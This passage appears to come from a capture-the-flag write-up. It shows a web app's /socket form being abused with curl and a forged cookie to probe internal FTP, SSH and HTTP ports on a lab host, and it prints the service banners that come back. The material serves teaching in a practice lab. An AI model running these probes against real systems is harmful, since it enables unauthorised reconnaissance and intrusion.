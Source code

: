 ```
<input type="text" name="port" placeholder="TCP port"></input>
<input type="text" name="cmd" placeholder="Line to send..."></input>
<input type="submit" value="Submit"</input>
</form>

<p>Output</p>
<pre>
220 (vsFTPd 3.0.3)
530 Please login with USER and PASS.

</pre>

</div>
</body>
</html>

```

Similarly, port 22 and 80 return errors about ssh and http:

```

root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=22&cmd=0xdf'
...[snip]...
<p>Output</p>
<pre>
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
Protocol mismatch.

</pre>
...[snip]...

root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=80&cmd=0xdf'
...[snip]...
<p>Output</p>
<pre>
HTTP/1.1 400 Bad Request
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 29 Jan 2019 14:25:16 GMT
Content-Type: text/html
Content-Length: 182
Connection: close

&lt;html&gt;
&lt;head&gt;&lt;title&gt;400 Bad Request&lt;/title&gt;&lt;/head&gt;
&lt;body bgcolor=&#34;white&#34;&gt;
&lt;center&gt;&lt;h1&gt;400 Bad Request&lt;/h1&gt;&lt;/center&gt;
&lt;hr&gt;&lt;center&gt;nginx/1.10.3 (Ubuntu)&lt;/center&gt;
&lt;/body&gt;
&lt;/html&gt;

</pre>
...[snip]...

```

